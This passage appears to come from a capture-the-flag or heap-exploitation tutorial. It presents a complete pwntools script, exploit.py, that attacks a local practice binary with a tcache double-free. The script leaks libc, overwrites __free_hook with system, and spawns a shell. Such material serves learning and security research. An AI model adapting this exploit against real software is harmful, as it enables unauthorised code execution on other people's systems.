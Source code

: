 <br />

Free a chunk containing the `/bin/sh` string to trigger `system("/bin/sh")`.

```python
free(sh)
p.interactive()
```

<br />

Putting it all together: `exploit.py`

```python
from pwn import *

bin = context.binary = ELF("tcache")
p = process(bin.path)
libc = bin.libc


count = 0
def add(size, data):
    global count
    p.send("1")
    p.sendafter("size: ", f"{size}")
    p.sendafter("data: ", data)
    p.recvuntil("> ")
    count += 1
    return count - 1


def free(count):
    p.send("2")
    p.sendafter("count: ", f"{count}")
    p.recvuntil("> ")


p.recvuntil("puts() @ ")
libc.address = int(p.recvline(), 16) - libc.sym.puts
p.recvuntil("> ")
p.timeout = 0.1


for i in range(7):
    add(0x58, "A"*8)
temp = add(0x58, "B"*8)

for i in range(7):
    free(i)
free(temp)

for i in range(7):
    sh = add(0x58, "/bin/sh\0")
free(temp)
add(0x58, pack(libc.sym.__free_hook - 0x10))
add(0x58, "C"*8)
add(0x58, pack(libc.sym.system))
free(sh)
p.interactive()
```
